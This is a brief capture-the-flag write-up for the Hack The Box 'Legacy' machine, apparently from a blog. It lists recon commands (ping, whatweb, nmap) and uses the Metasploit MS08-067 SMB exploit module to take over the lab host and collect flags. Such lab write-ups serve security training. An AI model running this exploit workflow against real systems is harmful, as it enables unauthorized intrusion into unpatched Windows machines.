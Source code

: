 ```yaml
---
title: "HTB Legaccy Machine"
excerpt: "Learn how to complete Legaccy Machine on HTB."
categories:
  - HTB
tags:
  - HTB
  - HTB Legaccy Machine
  - Legaccy
  - Easy

toc: true
---
```


ping 10.10.10.4
whatweb 10.10.10.4

echo "10.10.10.4 legacy.htb" >> /etc/hosts
nmap legacy.htb

check [smb exploit](https://www.exploit-db.com/exploits/7132)
use exploit/windows/smb/ms08_067_netapi
set lport, lhost and rhost
run

cd c:/
cd "Documents and Settings"

get flags